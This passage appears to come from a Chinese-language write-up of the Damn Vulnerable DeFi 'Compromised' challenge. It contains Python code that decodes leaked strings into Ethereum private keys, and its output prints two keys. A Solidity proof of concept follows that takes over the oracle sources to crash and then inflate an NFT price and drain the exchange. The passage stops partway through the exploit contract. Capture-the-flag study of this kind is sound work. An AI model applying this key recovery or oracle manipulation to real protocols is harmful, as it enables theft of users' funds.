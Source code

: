 ```
]

from eth_account import Account

for leak in leaked_information:
    hex_str = ''.join(leak.split())
    ascii_str = hex_to_ascii(hex_str)
    decoded_str = decode_base64(ascii_str)
    private_key = decoded_str
    print("Private Key:", private_key)
    
    # Create a wallet instance from the private key
    wallet = Account.from_key(private_key)
    
    # Get the public key (address)
    address = wallet.address
    print("Wallet address:", address)

Private Key: 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
Wallet address: 0x188Ea627E3531Db590e6f1D71ED83628d1933088
Private Key: 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
Wallet address: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8

```
- 操控NFT價格, 低買高賣即可獲得更多ETH

[POC](./damn-vulnerable-defi/test/compromised/Compromised.t.sol) : 
```
    function test_compromised() public checkSolved {
        Exploit exploit = new Exploit{value:address(this).balance}(oracle, exchange, nft, recovery);
        vm.startPrank(sources[0]);
        oracle.postPrice(symbols[0],0);
        vm.stopPrank();
        vm.startPrank(sources[1]);
        oracle.postPrice(symbols[0],0);
        vm.stopPrank();

        exploit.buy();

        vm.startPrank(sources[0]);
        oracle.postPrice(symbols[0],999 ether);
        vm.stopPrank();
        vm.startPrank(sources[1]);
        oracle.postPrice(symbols[0],999 ether);
        vm.stopPrank();
        exploit.sell();
        exploit.recover(999 ether);
    }
    contract Exploit is IERC721Receiver{
    TrustfulOracle oracle;
    Exchange exchange;
    DamnValuableNFT nft;
    uint nftId;
    address recovery;
    constructor(    
        TrustfulOracle _oracle,
        Exchange _exchange,
        DamnValuableNFT _nft,
        address _recovery
    ) payable {
        oracle = _oracle;
        exchange = _exchange;
        nft = _nft;
```